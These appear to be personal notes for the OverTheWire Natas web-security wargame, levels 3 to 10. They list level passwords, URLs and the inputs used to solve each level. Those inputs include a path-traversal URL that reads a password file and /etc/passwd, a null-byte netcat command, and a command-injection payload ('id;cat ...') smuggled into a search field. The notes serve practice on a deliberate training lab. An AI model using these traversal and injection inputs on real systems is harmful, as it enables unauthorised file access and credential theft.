 # CTFNatas


#Level3

# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH

#

natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

#Level 4

http://natas4.natas.labs.overthewire.org/index.php

iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

http://natas5.natas.labs.overthewire.org

#5>6

aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

/includes/secret.inc
http://natas6.natas.labs.overthewire.org/includes/secret.inc

#natas 6>7
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>

Natas7
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8 (Path transversal na raiz)
/etc/network/interfaces
/etc/passwd
/bin/bash /bin/nc -v 192.168.101.20 80%00
192.168.101.20

#Natas8
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

#natas9
3d3d516343746d4d6d6c315669563362
echo -n 3d3d516343746d4d6d6c315669563362 | perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
https://github.com/psmiraglia/ctf/blob/master/overthewire/natas/natas08.md
oubWYf2kBq


#Natas9 > 10

http://natas9.natas.labs.overthewire.org/?needle=id%3Bls+-l+%2F&submit=Search
id;cat /etc/natas_webpass/natas10
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

